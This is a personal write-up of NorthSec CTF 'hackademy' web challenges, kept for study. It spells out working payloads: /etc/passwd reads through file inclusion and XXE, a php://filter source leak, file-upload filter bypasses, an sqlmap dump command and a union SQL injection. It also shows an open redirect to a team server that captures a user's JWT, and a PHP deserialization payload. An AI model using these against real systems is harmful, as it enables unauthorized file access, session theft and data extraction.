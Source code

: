 ## hackademy-writeup

Every year, I participate in the NorthSec CTF, and every year, when I come face to face with the hackademy track, my mind just goes blank.
This writeup is intended for personal use in the same track next year, but hey, I made the repo public if it can help anyone!

### Automatization 101
Check source code

### Automatization 102
Look at the robots.txt file

### Inclusion 101
Change the ```?page=welcome.php``` to ```/etc/passwd```

### Inclusion 102
This is an XXE, check the source code, then catch the request in burp, modify the body in the repeater for something like this:<br>
```<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY ext SYSTEM "file:///etc/passwd" >]><function><getConversation>&ext;</getConversation></function>```

(thanks lolkatz)

### Inclusion 103
PHP convert to Base64... add ```php://filter/convert.base64-encode/resource=index.php``` after the ```?page=```<br>
Decode the string

### Upload 101
Create a basic PHP script like ```<?php echo 'Hello World'; ?>``` and name it script.jpg.php (security only checks the first .xxx)

### Upload 102
Upload the script created in Upload 101 and catch the request in Burp Repeater and change the ```Content-type``` to ```image/jpeg```

### Upload 103
This step checks the file signature, force the PNG file signature ```89 50 4E 47 0D 0A 1A 0A``` in the first bytes of the script created earlier

### Upload 104
Same as upload 101 but change the name of the script to script.png.php3

### SQL 101
Kinda hard for a 101 track, but use sqlmap with this command:```sqlmap u "URL HERE" --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```

### SQL 102
Directly in the username field, enter the injection: ```' union SELECT '','',''--```

### Open Redirect 101
My team owns a small server on the CTF network, so we redirect the user there ```URL.ctf/?sub_url=http://shell.ctf```<br>
Look at the logs on the server, we can see his JWT token.<br>
Go to ```URL.ctf/?identity=(insert JWT)``` (reminder; the token is only valid for 20mins)

### Serialize 101
Look at the source code and change the WelcomeMessage function by the function that outputs the base64 string, GiveMeFlagPrettyPlease()<br>
This is the final payload:
```
<?php
    class Hackademy{
        private $call = "GiveMeFlagPrettyPlease";
    }   
    $serialized = serialize(new Hackademy());

    // Output
    echo "Serialized:\n";
    echo $serialized;
    echo "\n";
    echo "Encoded:\n";
    echo base64_encode($serialized);
    echo "\n";
?>
```
I then use the output in the URL parameter, and it gives me the flag :)

### Forgery 101

### Forgery 102

### Forgery 103


